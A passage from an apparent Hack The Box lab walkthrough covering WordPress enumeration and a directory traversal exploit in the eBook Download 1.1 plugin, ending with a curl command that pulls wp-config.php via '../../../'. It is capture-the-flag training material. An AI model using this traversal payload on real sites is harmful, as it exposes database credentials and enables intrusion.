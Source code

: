 The homepage is a default WordPress theme with minimal content.

### 2.2 Login Panel

Attempt to access the default login endpoint:

``` bash
http://10.10.11.125/wp-login.php
```

![wp_login](GitHubv2/HackTheBox/EASY/Backdoor/screenshots/wp_login.png)

Default credentials failed.

---

### 2.3 Plugin Enumeration

By default, `/wp-content/plugins` should have a blank `index.php` to prevent directory listing.  
Here, the file is missing, allowing us to browse the directory:

``` bash
http://10.10.11.125/wp-content/plugins/
```

![wp_plugins](GitHubv2/HackTheBox/EASY/Backdoor/screenshots/wp_plugins.png)

Two plugins found:

- `hello.php` → Uninteresting
- `ebook-download` → Contains `readme.txt` revealing version **1.1**.

---

### 2.4 Exploiting `ebook-download` Plugin

Search for known exploits:

``` bash
searchsploit ebook download
```

![sploit_ebook](GitHubv2/HackTheBox/EASY/Backdoor/screenshots/sploit_ebook.png)

Exploit details:

`Exploit Title: WordPress eBook Download 1.1 | Directory Traversal Author: Wad-Deek Link: https://www.exploit-db.com/exploits/39575`

The vulnerability allows path traversal via:

`filedownload.php?ebookdownloadurl=../../../wp-config.php`

Retrieve `wp-config.php`:

``` bash
curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php"
```
